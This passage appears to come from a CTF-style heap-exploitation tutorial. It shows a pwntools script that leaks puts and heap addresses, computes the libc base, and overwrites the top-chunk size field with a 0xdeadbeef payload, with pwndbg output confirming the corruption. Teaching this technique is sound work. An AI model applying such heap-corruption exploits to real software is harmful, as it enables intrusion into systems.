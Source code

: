 ```python
    return puts_address, heap_address

# malloc()
def malloc(size, data):
    io.sendline(b'1')
    sleep(0.3)
    io.sendline(size)
    sleep(0.3)
    io.sendline(data)

# target()
def target():
    io.recvuntil(b'> ')
    io.sendline(b'2')



# -- Exploit goes here --

io = start()

puts_address, heap_address = leak_addresses()
log.info(f"Leaked puts address: {hex(puts_address)}")
log.info(f"Leaked heap address: {hex(heap_address)}")

libc_base = puts_address - libc.symbols['puts']
log.info(f"Leaked libc base {hex(libc_base)}")

malloc(b'24',b'A'*24+p64(0xdeadbeef))

io.interactive()
```

We send the payload `b'A'*24 + p64(0xdeadbeef)`, which overwrites the top-chunk **size field** in the heap metadata:

```python
payload = b'A' * 24 + p64(0xdeadbeef)
```

The `tbreak` command sets a breakpoint, but it is **temporary**. This means that it is automatically deleted after it is hit for the first time.

```bash
./exploit.py GDB NOASLR
```

On **Ctrl+C** in GDB and using `vis` command for visualizing chunks of `heap` section we can see that:

```bash
pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000021	........!.......
0x603010	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603020	0x4141414141414141	0x00000000deadbeef	AAAAAAAA........ <-- Top chunk
pwndbg> top_chunk 
Top chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x603020
Size: 0xdeadbee8 (with flag bits: 0xdeadbeef)
```
